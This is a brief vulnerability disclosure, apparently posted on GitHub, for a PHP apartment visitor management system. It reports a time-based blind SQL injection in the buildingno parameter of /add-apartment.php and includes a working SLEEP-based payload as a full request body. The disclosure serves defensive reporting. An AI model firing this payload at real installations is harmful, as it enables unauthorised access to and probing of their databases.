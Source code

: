 # The apartment visitor management system has SQL injection vulnerability

## Vulnerability author:liuyuanyuan

supplier:
https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

edition: 
1.0

/add-apartment.php

The buildingno parameter has SQL injection

Payload: apartmentno=qewqe&apartmentstatus=Owned&buildingno=C' AND (SELECT 3735 FROM (SELECT(SLEEP(5)))PkFG) AND 'cFCe'='cFCe&submit=

![image](https://github.com/user-attachments/assets/3e0c1724-d00e-46b6-b55d-0783cb0e365d)

![image](https://github.com/user-attachments/assets/f543cbbe-0678-4a66-bd34-649c18fc8a16)

